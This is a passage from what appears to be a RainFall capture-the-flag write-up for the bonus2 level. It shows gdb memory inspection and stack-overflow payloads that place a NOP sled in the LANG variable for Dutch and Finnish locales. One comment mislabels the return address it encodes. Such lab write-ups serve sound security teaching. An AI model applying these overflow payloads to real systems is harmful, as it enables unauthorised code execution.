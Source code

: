### 11. Finding LANG Address in Memory
```bash
bonus2@RainFall:~$ gdb bonus2
(gdb) break *main+125  # After getenv("LANG") call
(gdb) run $(python -c 'print "A"*40') test

# Finding environment address
(gdb) x/20s *((char**)environ)
0xbffff927:  "SHELL=/bin/bash"
0xbffff913:  "TERM=xterm"
# ... other environment variables ...
0xbffffee9:  "LANG=nl\220\220\220\220..."  # Our LANG variable!

# Calculate address inside NOP sled
LANG_start = 0xbffffee9
LANG_content_start = LANG_start + 5  # Skip "LANG="
NOP_sled_start = LANG_content_start + 2  # Skip "nl"
Target_address = NOP_sled_start + 50  # Jump into NOP sled

# Target address: 0xbffffee9 + 5 + 2 + 50 = 0xbfffff22
```

## Exploitation Implementation

### 12. Payload Construction for Different Languages

**For Dutch (LANG=nl):**
```bash
# Offset analysis:
# 23 bytes needed in argv[2] to reach return address
# Payload: 23 bytes filler + 4 bytes return address

argv1="A" * 40  # Fill first buffer completely
argv2="B" * 23 + return_address  # 23 bytes + return addr overwrite

# Return address points into LANG NOP sled
return_address = "\x22\xff\xff\xbf"  # 0xbffffee6 in little-endian
```

**For Finnish (LANG=fi):**
```bash
# Offset analysis:  
# 18 bytes needed in argv[2] to reach return address

argv1="A" * 40  # Fill first buffer completely  
argv2="B" * 18 + return_address  # 18 bytes + return addr overwrite

return_address = "\x22\xff\xff\xbf"  # Same NOP sled target
```

### 13. Execute the Exploit
